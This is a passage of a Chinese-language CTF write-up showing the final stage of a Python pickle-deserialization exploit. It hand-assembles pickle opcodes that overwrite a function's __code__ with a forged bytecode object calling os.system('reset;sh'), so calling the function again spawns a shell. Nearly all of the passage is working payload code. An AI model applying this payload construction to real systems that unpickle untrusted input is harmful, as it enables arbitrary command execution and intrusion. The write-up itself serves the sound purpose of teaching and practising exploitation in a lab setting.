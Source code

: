 ```py
print(loads(p))
# <code object read at 0x7f7af9301730, file "solve.py", line 3>
```
这里需要注意的有两点：
1. SHORT_BINBYTES 第一个字节为长度。
2. 倒数第三个属性 co_exceptiontable 为空，不能直接传入 `SHORT_BINBYTES + b'' + \,`应该传入 `SHORT_BINBYTES + b'\x00' + \`。

获取到代码对象之后，将其替换到第一步的 payload 中，最终 payload 如下：
```py
p = PROTO + b'\x04' + \
    GLOBAL + b'__main__\nSnakeWindow\n' + \
    NONE + \
    MARK + \
        UNICODE + b'__code__\n' + \
        GLOBAL + b'__main__\nSnakeSave.__class__\n' + \
        GLOBAL + b'__main__\nSnakeWindow.__code__\n' + \
        TUPLE1 + REDUCE + \
            MARK + \
                BININT1 + b'\x01' + \
                BININT1 + b'\x00' + \
                BININT1 + b'\x00' + \
                BININT1 + b'\x01' + \
                BININT1 + b'\x03' + \
                BININT1 + b'\x03' + \
                SHORT_BINBYTES + b'\x46' + b'\x97\x00t\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00S\x00' + \
                NONE + UNICODE + b'os\n' + UNICODE + b'reset;sh\n' + TUPLE3 + \
                UNICODE + b'__import__\n' + UNICODE + b'system\n' + TUPLE2 + \
                UNICODE + b'xd\n' + TUPLE1 + \
                UNICODE + b'solve.py\n' + \
                UNICODE + b'read\n' + \
                UNICODE + b'read\n' + \
                BININT1 + b'\x03' + \
                SHORT_BINBYTES + b'\x1e' + b'\x80\x00\xdd\x0b\x15\x90d\xd1\x0b\x1b\xd4\x0b\x1b\xd7\x0b"\xd2\x0b"\xa0:\xd1\x0b.\xd4\x0b.\xd0\x04.' + \
                SHORT_BINBYTES + b'\x01' + \
                EMPTY_TUPLE + \
                EMPTY_TUPLE + \
            TUPLE + \
        REDUCE + \
        DICT + \
    TUPLE2 + \
    BUILD + \
    STOP	

print(loads(p))
SnakeWindow("")
```
再次执行 SnakeWindow 函数时会进入 sh。
